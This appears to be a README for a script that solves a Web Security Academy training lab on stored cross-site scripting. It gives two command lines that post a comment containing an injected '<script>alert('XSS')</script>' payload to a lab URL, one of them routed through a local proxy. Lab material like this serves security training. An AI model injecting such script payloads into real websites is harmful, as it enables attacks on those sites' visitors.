 # How to run script.py

### Stored XSS into HTML context with nothing encoded

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "</p><script>alert('XSS')</script><p>"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "</p><script>alert('XSS')</script><p>" -p 127.0.0.1:8080`
